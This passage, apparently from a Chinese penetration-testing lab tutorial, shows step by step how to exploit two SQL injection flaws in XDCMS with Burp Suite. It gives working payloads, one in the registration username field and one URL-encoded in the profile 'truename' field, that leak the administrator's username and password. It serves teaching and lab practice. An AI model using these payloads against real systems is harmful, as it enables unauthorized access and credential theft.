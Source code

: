 再依次点击 **Action -> Send to Repeater**，便可在 **Repeater** 选项卡中看到刚才抓取的数据包，用于进行重放攻击：

![register_repeater](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/register_repeater.png)

根据漏洞报告中的利用方法以及 payload：

```sql
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM (SELECT count(1),concat(round(rand(0)),(SELECT concat(username,0x23,password) FROM c_admin LIMIT 0,1))a FROM information_schema.tables GROUP by a)b#
```

将该 payload 插入请求数据的 `username` 参数中，点击 **Go**，在响应数据中即可看到报错信息中泄露的管理员账号密码：

![register_repeater_response](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/register_repeater_response.png)

当然也可直接在 **Proxy** 选项卡中插入 payload，点击 **Forward**，将抓取的数据包转发给服务器：

![register_proxy_forward](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/register_proxy_forward.png)

在浏览器的注册响应信息中同样能看到账号密码：

![register_proxy_response](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/register_proxy_response.png)

## 会员资料修改处的 SQL 注入

第二个漏洞也是由于 `/system/modules/member/index.php` 中的编辑函数 `edit_save()` 过滤不严，可绕过限制造成 SQL 注入。同样地，此处不研究漏洞原理，只对该漏洞进行利用，详情可参考：

> [xdcms通用型全版本注入漏洞](http://wooyun.jozxing.cc/static/bugs/wooyun-2013-043334.html)

利用刚刚注册好的 **sql_injection** 账户登录，准备对 **资料管理 -> 基本资料** 中的 **姓名** 进行修改：

![modify_info](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/modify_info.png)

打开 Burp Suite 后，点击 **更新**，成功截取到更改请求数据包：

![modify_capture](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/modify_capture.png)

根据漏洞报告中的利用方法以及 payload：

```url
%60%3D%28select%20group_concat%28username%2C0x3a%2Cpassword%29%20from%20c_admin%20where%20id%3D1%29%23
```

该 payload 经过 URL 解码后为：

```sql
`=(select group_concat(username,0x3a,password) from c_admin where id=1)#
```

将该 payload 插入请求数据的 `field%5Btruename%5D`中，**注意是要将经过 URL 编码后 payload 插入到 `truename` 与 `%5D` 之间**，否则漏洞利用失败。接着点击 **Forward**：

![modify_forward](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/modify_forward.png)
